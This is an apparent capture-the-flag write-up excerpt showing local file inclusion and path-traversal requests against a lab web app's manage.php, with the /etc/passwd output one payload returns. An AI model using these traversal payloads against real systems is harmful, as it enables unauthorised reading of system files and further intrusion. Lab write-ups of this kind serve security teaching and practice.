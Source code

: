 ```bash
URL: http://10.10.10.43/department/manage.php?notes=files/
# Returned: No Note is selected.

URL: http://10.10.10.43/department/manage.php?notes=/etc/passwd
# Returned: No Note is selected.

URL: http://10.10.10.43/department/manage.php?notes=files/ninevehNotes
# Returned: Warning:  include(files/ninevehNotes): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31

URL: http://10.10.10.43/department/manage.php?notes=/ninevehNotes/
# Returned: Warning:  include(/ninevehNotes/): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31

URL: http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../etc/passwd
Returned:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
amrois:x:1000:1000:,,,:/home/amrois:/bin/bash
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
```

Recall that there is a `/db` directory.
